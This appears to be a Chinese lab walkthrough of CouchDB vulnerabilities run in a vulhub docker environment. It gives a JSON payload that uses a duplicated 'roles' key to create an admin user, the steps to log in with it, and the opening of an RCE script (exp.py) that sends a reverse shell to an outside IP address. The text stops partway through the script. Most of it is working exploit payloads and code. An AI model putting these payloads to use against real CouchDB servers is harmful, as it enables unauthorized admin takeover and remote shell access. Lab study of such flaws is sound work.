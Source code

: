 ![1649480145108-6d3c03e8-fc77-4d86-b03c-9d1081974f7c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134219752-2055938969.png)

```plain
访问特定地址：http://192.168.233.128:5984/_users/org.couchdb.user:vulhub
POST提交：
{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}

返回添加失败
```

![1649480299429-f9f777e4-7b04-4979-ad6a-792e40cf9eb5.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134220129-1268556534.png)

```plain
然后在修改提交方式PUT，完成添加密码。
```

![1649480407916-17727670-f903-442f-a3db-08de632e3836.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134220296-1398813509.png)

```plain
访问：http://192.168.233.128:5984/_utils/

输入账号密码：vulhub，vulhub 登录成功。
```

RCE执行

```plain
启动环境：
/vulhub-master/couchdb/CVE-2017-12636
docker-compose up -d

1、下载exp.py
2、修改目标和反弹地址
3、Python3调用执行即可

exp.py下载：https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py
exp.py代码：

#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://192.168.233.128:5984'
command = rb"""sh -i >& /dev/tcp/175.178.151.29/5566 0>&1"""
version = 1

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
```